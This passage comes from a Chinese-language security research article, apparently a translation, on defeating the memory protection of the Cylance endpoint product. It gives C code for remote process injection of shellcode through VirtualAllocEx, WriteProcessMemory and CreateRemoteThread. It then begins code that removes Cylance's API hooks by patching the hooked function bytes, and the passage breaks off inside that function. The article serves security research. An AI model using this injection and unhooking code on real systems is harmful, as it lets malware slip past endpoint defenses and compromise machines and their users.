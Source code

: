 

## 四、内存防护

现在来看一下内存保护机制。当分析端点安全产品的内存保护机制时，我们非常有必要澄清该产品如何检测常见的可疑API调用（如`CreateRemoteThread`或`WriteProcessMemory`）。

我们可以通过控制台选项了解Cylance支持的内存分析策略：

[![](https://p1.ssl.qhimg.com/t014d9baf57f6492440.png)](https://p1.ssl.qhimg.com/t014d9baf57f6492440.png)

如果启用了这些防护策略，我们发现Cylance会将`CyMemdef.dll`注入32位进程，将`CyMemDef64.dll`注入64位进程。

为了理解Cylance部署的防护措施，我们可以利用`CreateRemoteThread`来模拟恶意软件常用的内存注入技术。简单的PoC代码如下所示：

```
HANDLE hProc = OpenProcess(PROCESS_ALL_ACCESS, false, procID);
if (hProc == INVALID_HANDLE_VALUE) `{`
    printf("Error opening process ID %dn", procID);
    return 1;
`}`
void *alloc = VirtualAllocEx(hProc, NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (alloc == NULL) `{`
    printf("Error allocating memory in remote processn");
    return 1;
`}`
if (WriteProcessMemory(hProc, alloc, shellcode, sizeof(shellcode), NULL) == 0) `{`
    printf("Error writing to remote process memoryn");
    return 1;
`}`
HANDLE tRemote = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)alloc, NULL, 0, NULL);
if (tRemote == INVALID_HANDLE_VALUE) `{`
    printf("Error starting remote threadn");
    return 1;
`}`
```

与我们设想的一致，执行这段代码会被Cylance检测到，进程也会被终止：

[![](https://p3.ssl.qhimg.com/t01036d994c3710a4a3.png)](https://p3.ssl.qhimg.com/t01036d994c3710a4a3.png)

检查Cylance注入的DLL，可以发现Cylance在进程中植入了多个hook，以检测进程是否调用这些可疑函数。比如，如果我们在`NtCreateThreadEx`（为`CreateRemoteThread`提供syscall）上设置一个断点，然后调用该API，我们可以看到Cylance会通过`JMP`指令修改该函数：

[![](https://p0.ssl.qhimg.com/t019a1c8230470b077e.png)](https://p0.ssl.qhimg.com/t019a1c8230470b077e.png)

通过`JMP`继续执行，就会触发Cylance警告，强制结束我们的程序。了解这一点后，我们可以从进程中修改被hook的指令，移除Cylance检测机制：

```
#include &lt;iostream&gt;
#include &lt;windows.h&gt;
unsigned char buf[] =
"SHELLCODE_GOES_HERE";
struct syscall_table `{`
    int osVersion;
`}`;
// Remove Cylance hook from DLL export
void removeCylanceHook(const char *dll, const char *apiName, char code) `{`
    DWORD old, newOld;
    void *procAddress = GetProcAddress(LoadLibraryA(dll), apiName);
    printf("[*] Updating memory protection of %s!%sn", dll, apiName);
    VirtualProtect(procAddress, 10, PAGE_EXECUTE_READWRITE, &amp;old);
    printf("[*] Unhooking Cylancen");
    memcpy(procAddress, "x4cx8bxd1xb8", 4);
    *((char *)procAddress + 4) = code;
```